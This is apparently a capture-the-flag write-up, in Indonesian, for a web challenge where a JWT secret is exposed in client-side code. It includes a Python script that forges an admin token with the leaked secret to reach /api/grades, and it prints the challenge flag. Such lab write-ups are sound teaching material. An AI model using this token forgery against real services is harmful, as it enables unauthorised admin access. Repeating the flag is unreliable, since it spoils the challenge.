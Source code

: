 ```yaml
---
title: sisiroblox
category: Web Exploitation
tags:
completedDuringEvent: true
submitted: true
flag: WRECKIT60{JWT_S3cr3t_Exp0s3d_1n_Cl13nt_S1d3}
points: 584
draft: false
---
```


## Analisa

Di challenge ini diberikan sebuah web service, dengan tampilan seperti berikut:



![](tampilan.png)



Lalu,gw melihat source-code daripada website tersebut, dan gw menemukan:


![](ye.png)


dan gw nemuin something di `lib/constants.js` yaitu jwt secret/key



![](jwt.png)


dan  ini di `app.js`:






![](endpointflga.png)




## Solve

Dengan apa yang sudah kita temukan, yaitu JWT Key, kita bisa langsung bisa craft JWT dengan role nya itu “Admin”, berikut script python untuk craft JWT nya

```py
import jwt
import time

SECRET = 'r0bl0x_n00b_h4x0r_g3t_r3kt_m8_42069'

payload = {
    "userId": "b83b8802-15ac-4629-b6f7-197541a029c0",
    "username": "baradika",
    "role": "admin",
    "nim": "000000000", 
    "nama": "baradika",
    "iat": int(time.time()),
    "exp": int(time.time()) + (8 * 60 * 60)
}

token = jwt.encode(payload, SECRET, algorithm='HS256')
print(token)
```

Lalu pakai new JWT baru nya dan hit endpoint `/api/grades`


![](flag.png)